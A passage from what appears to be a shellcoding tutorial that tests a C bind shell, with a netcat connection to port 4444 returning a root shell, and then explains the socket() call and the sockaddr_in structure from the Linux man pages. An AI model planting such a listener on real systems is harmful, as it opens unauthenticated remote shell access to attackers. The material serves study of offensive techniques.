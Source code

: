 ```c
}
```

Great, before we dive into how this was created, lets test it to make sure it works.

### Compiling C Bind Shell
```console
root# gcc basicBindShell.c -o basicBindShell
```

### Testing Our Shellcode in the Host Program
#### Terminal Window 1
```console
root# ./basicBindShell
```
#### Terminal Window 2
```console
root# netstat -tanlp | grep basicBind
tcp   0   0 0.0.0.0:4444    0.0.0.0:*   LISTEN    31804/basicBindShell
root# nc.traditional 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
Awesome! It works. Lets dive into these C functions and how they work.

### 1. Create a new Socket
Our first function is `socket()`. We already know that this function is used to create a new socket.   
To find out more about this function we will use the command `man 7 socket` from our linux terminal.  
```console
man 7 socket
  int socket(int domain, int type, int protocol);
```
Our requirements, for our bind shell, are that at Layer 3 we use the IP version 4 Protocol, and at Layer 4 we use the Transmission Control Protocol (TCP).  
After reviewing the `socket()` man pages, we discover we will need to fufill the following arguements.
+ `int domain`   = `AF_INET`
  - IPv4 Internet protocols.
+ `int type`     = `SOCK_STREAM` 
  - Provides sequenced, reliable, two-way, connection-based byte streams (TCP).
+ `int protocol` = `0` 
  - The protocol to be used with the socket. 
  - Normally there is only one protocol per socket type. In this case the protocol value is `0`.

#### Our C function
```c
int ipv4Socket = socket(AF_INET, SOCK_STREAM, 0);
```

### 2. Create a TCP-IP Address for the Socket
Now that our IPv4, TCP socket has been created, we will need to create an address for it. After creating the TCP-IP address, we will bind the address to the socket.  
To create the TCP-IP address (TCP Port Number & IP Address), we will dig into the `ip` man pages with command `man 7 ip`.   
We find this relevant information:
```c
// An IP socket address is defined as a combination of an IP 
//  interface address and a 16-bit port number.
struct sockaddr_in {
  sa_family_t    sin_family; // address family: AF_INET
  in_port_t      sin_port;   // port in network byte order. See "man htons".
  struct in_addr sin_addr;   /* internet address */
```